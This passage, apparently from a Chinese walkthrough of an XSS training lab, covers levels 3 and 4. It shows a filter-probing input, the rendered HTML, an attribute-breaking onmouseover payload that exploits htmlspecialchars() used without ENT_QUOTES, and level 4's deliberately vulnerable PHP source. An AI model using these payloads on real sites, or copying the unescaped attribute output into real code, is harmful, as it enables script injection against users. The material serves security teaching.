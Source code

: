 ### 过程(未知源码的情况下)

表单输入`<sCr<scrscRiptipt>ipt>OonN\&apos;\"'<>`查看前端代码：

```html
<body>
<h1 align=center>欢迎来到level3</h1>
<h2 align=center>没有找到和&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;'&lt;&gt;相关的结果.</h2><center>
<form action=level3.php method=GET>
<input name=keyword  value='&lt;sCr&lt;scrscRiptipt&gt;ipt&gt;OonN\&amp;apos;\&quot;'&lt;&gt;'>
<input type=submit name=submit value=搜索 />
</form>
</center><center><img src=level3.png></center>
<h3 align=center>payload的长度:37</h3></body>
```

有两处输出(第3行、第5行)，这两处的输出都被处理过，推测是用到了`htmlspecialchars()`，但是没有加`ENT_QUOTES`参数导致`'`没有被处理，将第5行的输出作为构造payload的基础。

***表单输入`'onmouseover='javascript:alert(1)`，鼠标移到表单上，过关。***

​	

​	

## 第四关

![](https://pic.imgdb.cn/item/64c87b6f1ddac507cc53adb8.jpg)

### 源码

```php+HTML
<body>
<h1 align=center>欢迎来到level4</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level4.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str3)."</h3>";
?>
</body>
```
